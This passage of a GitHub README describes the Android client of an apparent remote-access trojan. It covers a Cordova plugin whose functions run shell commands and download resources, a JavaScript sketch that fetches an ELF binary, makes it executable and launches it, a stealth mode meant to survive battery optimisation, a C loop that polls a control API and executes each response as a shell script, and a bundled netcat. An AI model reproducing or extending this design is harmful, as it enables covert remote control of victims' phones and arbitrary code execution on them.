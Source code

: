 2. [Client/Trojan (__Android__)](https://github.com/BenChaliah/Arbitrium-Android): The app is build using Cordova for its simplicity and support for cross-platform developpement. This app relays of two main parts


	1. ##### __netbolt-orange-plugin__: 

		this is a cordova plugin I made, it contains few functions that we can call from `index.html`, scripts downloaded via `/checkupdate.js` mainly use these methods to run the assigned task

		    + __exec()__ : execute shell cmd then returns the cmd output, it runs on the __UI thread__

		    + __poolexec()__ : same as 'exec()', but this one uses the `ThreadPoolExecutor` so the App can run a cmd without blocking the main thread, when the output is ready, it sent via a callback with the exit status

		    + __download()__ : this one is for downloading whatever resources the API or the admin may want or need to execute a task


	**Example**:
	The trojan at first requests `/checkupdate.js`, let assumes this is an Android phone and we want to initiate the [StealthMode/BatteryBypass](#stealthmode) to avoid getting killed (Battery optimizations ...), the API then responde with something like:


	```javascript
	function sfunc1(){
	    window.MyOrangePlugin.download([{Link for ELF} ...], function(res){
	        sfunc2(...);
	    });
	}
	function sfunc2(...){
	    window.MyOrangePlugin.exec("chmod ... ", function(res){
	    	sfunc3(...);
	    });
	}
	function sfunc3(...){
	    window.MyOrangePlugin.poolexec({Here we start the binary the will keep interacting with the API}, function(res){
	    	...
	    });
	}
	```

	> The app also uses a slightly customized version of Cordova background mode plugin.



	2. ##### __StealthMode__:

		    + __runFrame.c__ : This is a simple C program that sends HTTP requests every few seconds to the API through a socket, saves the response to a shell file then makes a system call to run it.

		    + __toolbox.c__ : This is a standalone netcat

	The resulting binaries are statically linked to ensure stability and path independance. The importance of using `runFrame` instead of just running a JS loop in **index.html** doesn't only stop at the Battery issues explained previously but also for performance reasons. The app with this mode uses much less resources and is more reliable.
